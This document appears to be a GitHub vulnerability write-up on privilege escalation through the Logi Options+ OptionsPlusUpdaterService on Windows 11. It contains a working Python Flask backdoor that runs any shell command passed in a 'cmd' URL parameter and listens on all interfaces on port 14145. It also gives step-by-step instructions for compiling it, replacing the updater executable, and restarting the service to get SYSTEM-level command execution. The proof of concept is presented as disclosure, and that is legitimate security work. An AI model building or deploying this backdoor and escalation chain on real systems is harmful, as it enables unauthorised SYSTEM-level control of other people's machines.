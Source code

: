 # windows Logi OptionsPlus OptionsPlusUpdaterService is Vulnerable Services

test on windows 11 22000.1098   Logi Options+ 1.0.5155

#Vulnerability reproduction

The first step：open services.msc find OptionsPlusUpdaterService
![image](https://github.com/happy0717/windows-Logi-OptionsPlus-OptionsPlusUpdaterService-is-Vulnerable-Services/blob/main/pic1.png)

Step 2：Prepare a malicious program
![image](https://github.com/happy0717/windows-Logi-OptionsPlus-OptionsPlusUpdaterService-is-Vulnerable-Services/blob/main/pic2.png)

    from flask import Flask, request
    import os

    app = Flask(__name__)

    @app.route('/')
    def hello_world():
        r = request.args.getlist('cmd')  #Reception? cmd= parameter
        a=os.popen(r[0])  #Execute system commands
        l = a.read()
        return l  #return

    if __name__ == '__main__':
        app.run(host='0.0.0.0', port=14145, debug=True)  #Listen HTTP port 14145



I was useing python3 flask write a malicious exe .It can listenHTTP port 14145 and execute system commands.
Using commands pyinstaller.exe --onefile --windowed -F -w python_test.py make a malicious exe.


Step 3：Put malware into Logi OptionsPlus installation path,and rename malware to logioptionsplus_updater.exe.
for me Logi OptionsPlus installation path is :C:\Program Files\LogiOptionsPlus
1.Delete the old logioptionsplus_updater.exe or anything to make logioptionsplus_updater.exe disappear
2.Put malware into Logi OptionsPlus installation path,and rename malware to logioptionsplus_updater.exe
![image](https://github.com/happy0717/windows-Logi-OptionsPlus-OptionsPlusUpdaterService-is-Vulnerable-Services/blob/main/pic3.png)

Step 3：Start the OptionsPlusUpdaterService
If OptionsPlusUpdaterService is already start you can restart it
![image](https://github.com/happy0717/windows-Logi-OptionsPlus-OptionsPlusUpdaterService-is-Vulnerable-Services/blob/main/pic4.png)

Step 4：Wait OptionsPlusUpdaterService start and execute the system commands
When I see OptionsPlusUpdaterService start in Taskmgr.exe whit SYSTEM, Then I can Open browser input http://127.0.0.1:14145?cmd=whoami
Wait..........
for...
it.
NT SYSTEM
![image](https://github.com/happy0717/windows-Logi-OptionsPlus-OptionsPlusUpdaterService-is-Vulnerable-Services/blob/main/pic5png)
